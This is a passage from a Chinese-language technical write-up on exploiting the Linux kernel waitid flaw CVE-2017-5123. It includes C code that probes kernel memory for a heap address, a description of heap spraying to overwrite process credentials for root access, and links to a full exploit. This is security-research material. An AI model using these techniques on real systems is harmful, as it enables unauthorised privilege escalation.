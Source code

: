  
注：这种方式需要关闭mmap_min_addr 和 SMEP 防护。

利用代码：
https://github.com/nongiach/CVE/blob/master/CVE-2017-5123/exploit/exploit_null_ptr_deref.c

### 漏洞利用二

nsafe_put_user在访问无效内存地址时不会崩溃，仅返回-EFAULT。因此可以遍历内核地址，直到找到一个有效的内核地址。

```
for(i = (char *)0xffff880000000000; ; i+=0x10000000) {
    pid = fork();
    if (pid > 0) 
    {
        if(syscall(__NR_waitid, P_PID, pid, (siginfo_t *)i, WEXITED, NULL) >= 0) 
        {
            printf("[+] Found %pn", i);
            break;
        }
    }
    else if (pid == 0)
        exit(0);
}
```

找到堆的基址，然后通过不停fork出子进程进行堆喷，通过驱动获取每个进程cred->euid和cred->uid的地址，通过waitid：unsafe_put_user(0, &infop->si_errno, Efault); 写0的操作，覆盖cred进行提权。

这只是实验性的利用，要通过驱动获取地址观察cred的大概位置。也可以直接根据驱动获取的cred的地址进行写入，可直接提权。

参考链接：

https://reverse.put.as/2017/11/07/exploiting-cve-2017-5123/

https://blog.csdn.net/weixin_30394633/article/details/96265433

### 漏洞利用三

```
struct rusage r;                                                                                   
    struct waitid_info info = {.status = 0};                                                           
    long err = kernel_waitid(which, upid, &info, options, ru ? &r : NULL);                             
    int signo = 0;                                                                                                  
    if (err > 0) {                                                                                     
        signo = SIGCHLD;                                                                               
        err = 0;                                                                                       
        if (ru && copy_to_user(ru, &r, sizeof(struct rusage)))                                         
            return -EFAULT;                                                                            
}           
```
